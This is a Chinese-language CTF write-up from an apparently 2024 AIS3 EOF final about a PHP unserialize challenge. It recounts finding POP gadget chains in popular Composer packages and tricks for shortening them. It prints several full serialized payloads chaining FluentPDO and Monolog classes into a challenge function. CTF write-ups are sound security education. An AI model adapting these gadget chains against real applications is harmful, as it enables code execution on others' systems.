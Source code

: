 ### 比賽情況

看到這種題目一定就會想拿 PHPGGC 直接炸下去🍤, 所以題目作者就在 -1 回合的時候就用 NPC 隊把他生的 payload 全部都用上去, 請 AxelHowe (打 pwn 的) 跟 Ching367436 幫忙試才發現的, 接著 Ching367436 看到 PHPGGC 有 [pr](https://github.com/ambionics/phpggc/pull/160), 裡面有其他原本沒有的, 發現全部都不行, 後來有隊伍拿 edu-ctf 的 chain 來打 (predis), 就待在排名上面一直拿分, 第一天那題就沒有動靜了

第二天清晨, 我在 https://packagist.org/explore/popular 逛了各種熱門的 composer 的 app. 基本上流程就是把 package 載下來, 找 php magic method, 找不到就刪掉換下一個, 發現其實 `__destruct` 還蠻稀有的, 後來翻到 https://packagist.org/explore/popular?query=FluentPDO , 然後 sqlitline 那邊有[現成的 chain](https://github.com/splitline/My-CTF-Challenges/tree/master/tsj-ctf/avatar) 可用, 拿來改成可以用的形狀後, 我把一個 chain 當 3 個來用, 因為 `envms/fluentpdo` `lichtner/fluentpdo` `fpdo/fluentpdo` 都是同個東西, 所以就用這個拿 3 倍的分數, 靠這個就在這題第一名待了幾個小時, 後來被抄走了 ==.

#### 各種縮短 POP Chain 的手法

第一種就是直接找其他更短的 chain, 但時間成本較高. 我在 `fluentpdo` 被搶走後才用的是: 在生 chain 的過程把所有 `private` `protected` 的部分改成 `public`, 這樣可以少一些 `\x00`  如下:

![](/ais3-eof-2024-final/poper-public.png)

```python
# before
b'O:30:"Envms\\FluentPDO\\Queries\\Select":3:{s:9:"\x00*\x00fluent";O:21:"Envms\\FluentPDO\\Query":1:{s:32:"\x00Envms\\FluentPDO\\Query\x00structure";O:25:"Envms\\FluentPDO\\Structure":1:{s:37:"\x00Envms\\FluentPDO\\Structure\x00primaryKey";s:10:"p0pp3r_win";}}s:8:"\x00*\x00regex";O:21:"Envms\\FluentPDO\\Regex":0:{}s:13:"\x00*\x00statements";a:2:{s:8:"GROUP BY";a:1:{i:0;s:2:"a:";}s:4:"FROM";s:18:"./@ --give-me-flag";}}'
# after
b'O:30:"Envms\\FluentPDO\\Queries\\Select":3:{s:9:"\x00*\x00fluent";O:21:"Envms\\FluentPDO\\Query":1:{s:9:"structure";O:25:"Envms\\FluentPDO\\Structure":1:{s:10:"primaryKey";s:10:"p0pp3r_win";}}s:8:"\x00*\x00regex";O:21:"Envms\\FluentPDO\\Regex":0:{}s:13:"\x00*\x00statements";a:2:{s:8:"GROUP BY";a:1:{i:0;s:2:"a:";}s:4:"FROM";s:18:"./@ --give-me-flag";}}'
# after after
'O:30:"Envms\\FluentPDO\\Queries\\Select":3:{s:6:"fluent";O:21:"Envms\\FluentPDO\\Query":1:{s:9:"structure";O:25:"Envms\\FluentPDO\\Structure":1:{s:10:"primaryKey";s:10:"p0pp3r_win";}}s:5:"regex";O:21:"Envms\\FluentPDO\\Regex":0:{}s:10:"statements";a:2:{s:8:"GROUP BY";a:1:{i:0;s:2:"a:";}s:4:"FROM";s:18:"./@ --give-me-flag";}}'
```

所以把這個搶回來了, 然後又被搶走了, 因為我 `\x00` 沒全部處理掉. 但我把其他人的搶走 (對方 payload 後面多了 `\n`, 刪掉後就得手), 所以我們還是第一, 這題變成比手速的題目了.

到了下午, 有更多奇怪的手段出現, 像是讓 chain 裡面的字串更短.

```python
b'O:37:"Monolog\\Handler\\FingersCrossedHandler":4:{s:13:"passthruLevel";E:19:"Monolog\\Level:Info";s:7:"handler";r:1;s:6:"buffer";a:1:{i:0;O:17:"Monolog\\LogRecord":2:{s:5:"level";r:2;s:5:"mixed";s:18:"./@ --give-me-flag";}}s:10:"processors";a:3:{i:0;s:15:"get_object_vars";i:1;s:3:"end";i:2;s:10:"p0pp3r_win";}}'
b'O:37:"Monolog\\Handler\\FingersCrossedHandler":4:{s:13:"passthruLevel";E:18:"Monolog\\Level:Info";s:7:"handler";r:1;s:6:"buffer";a:1:{i:0;O:17:"Monolog\\LogRecord":2:{s:5:"level";r:2;s:4:"info";s:18:"./@ --give-me-flag";}}s:10:"processors";a:3:{i:0;s:15:"get_object_vars";i:1;s:3:"end";i:2;s:10:"p0pp3r_win";}}'
b'O:37:"Monolog\\Handler\\FingersCrossedHandler":4:{s:13:"passthruLevel";E:18:"Monolog\\Level:Info";s:7:"handler";r:1;s:6:"buffer";a:1:{i:0;O:17:"Monolog\\LogRecord":2:{s:5:"level";r:2;s:4:"info";s:16:"@ --give-me-flag";}}s:10:"processors";a:3:{i:0;s:15:"get_object_vars";i:1;s:3:"end";i:2;s:10:"p0pp3r_win";}}'
b'O:37:"Monolog\\Handler\\FingersCrossedHandler":4:{s:13:"passthruLevel";E:18:"Monolog\\Level:Info";s:7:"handler";r:1;s:6:"buffer";a:1:{i:0;O:17:"Monolog\\LogRecord":2:{s:5:"level";r:2;s:0:"";s:18:"./@ --give-me-flag";}}s:10:"processors";a:3:{i:0;s:15:"get_object_vars";i:1;s:3:"end";i:2;s:10:"p0pp3r_win";}}'

```